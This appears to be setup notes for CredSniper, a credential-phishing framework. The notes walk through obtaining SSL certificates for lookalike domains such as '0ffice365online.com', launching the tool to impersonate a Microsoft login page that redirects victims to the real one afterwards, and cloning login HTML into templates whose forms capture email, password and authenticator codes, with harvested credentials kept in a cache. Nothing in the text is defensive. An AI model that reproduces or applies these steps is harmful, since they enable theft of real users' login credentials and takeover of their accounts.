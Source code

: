 # CredSniper

## Setup new site



## Generate new SSL certs

Window 1:
(run)
certbot -d microsoftcenter.net --manual --preferred-challenges http certonly
(wait)
(do window 2)

Window 2:
cd to location
python -m SimpleHTTPServer 80

Window 3:
edit file with auth code. 


Move new certs to 
- mv /etc/letsencrypt/live/{domain}.tld/privkey.pem CredSniper/certs/{domain}.tld.privkey.pem

- mv  /etc/letsencrypt/live/{domain}.tld/fullchain.pem CredSniper/certs/{domain}.tld.cert.pem

python credsniper.py --module ligins --port 443 --ssl --verbose --final https://login.microsoftonline.com --hostname 0ffice365online.com

## Template Building

### basics
- Create a new module for the client or website type. 
- Rename the .py to the modulename.py
- Change the set_name to the modulename.

### CredSniper/modules/{name}/ 
{name}.py



### CredSniper/modules/{name}/templates/
Main important files for basic usage. 
- login.html
- password.html
- authenticator.html



### Login
The login file will be the initial splash page. 
Wipe the template file, paste your html code in the file. 

Look for the main <form> you will need to replace the action with  action="{{ next_url }}". On submission will take you to the next page. 

You will also need the name of the input for the email. 

### Password
Where the user logs in.


## How the files work

### .cache
holds the logged creds
